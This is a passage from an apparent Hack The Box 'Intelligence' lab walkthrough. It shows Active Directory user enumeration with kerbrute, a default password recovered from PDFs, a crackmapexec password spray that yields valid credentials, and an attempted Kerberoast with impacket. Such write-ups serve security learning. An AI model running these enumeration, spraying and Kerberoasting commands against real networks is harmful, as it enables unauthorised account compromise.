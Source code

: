 ```zsh
[-] User Brian.Baker doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Brian.Morris doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Daniel.Shelton doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Danny.Matthews doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Darryl.Harris doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User David.Mcbride doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User David.Reed doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User David.Wilson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Ian.Duncan doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Jason.Patterson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Jason.Wright doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Jennifer.Thomas doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Jessica.Moody doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User John.Coleman doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Jose.Williams doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Kaitlyn.Zimmerman doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Kelly.Long doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Nicole.Brock doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Richard.Williams doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Samuel.Richardson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Scott.Scott doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Stephanie.Young doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Teresa.Williamson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Thomas.Hall doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Thomas.Valenzuela doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Tiffany.Molina doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Travis.Evans doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Veronica.Patel doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User William.Lee doesn't have UF_DONT_REQUIRE_PREAUTH set
```
we validate with kerbrute that all users are valid. 
```zsh
/opt/kerbrute/kerbrute userenum --dc intelligence.htb users.txt -d intelligence.htb
2023/05/08 11:58:20 >  Using KDC(s):
2023/05/08 11:58:20 >  	intelligence.htb:88
(SNIP)
2023/05/08 11:58:26 >  Done! Tested 30 usernames (30 valid) in 5.176 seconds
```
We can read each PDF and we will extract in one of them (2020-06-04-upload.pdf) a password. alternative, we can convert the pdf to text so we can then read them with cat. Install poppler-utils which has pdftotext, then convert the files to txt and use batcat to read them all.
```zsh
sudo apt install poppler-utils

for f in *pdf; do pdftotext $f; done

cat *.txt

NewIntelligenceCorpUser9876
```
we will try the password against our list of users to see if I user left it as default.
```zsh
crackmapexec smb 10.10.10.248 -u users.txt -p NewIntelligenceCorpUser9876 --continue-on-success
SMB         10.10.10.248    445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
```
We are going to try to Kerberoast the user. There is no warranty that the user could be kerberoasted and in this case is not. 
```zsh
/usr/share/doc/python3-impacket/examples/GetUserSPNs.py intelligence.htb/Tiffany.Molina:NewIntelligenceCorpUser9876 -request
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

No entries found!
```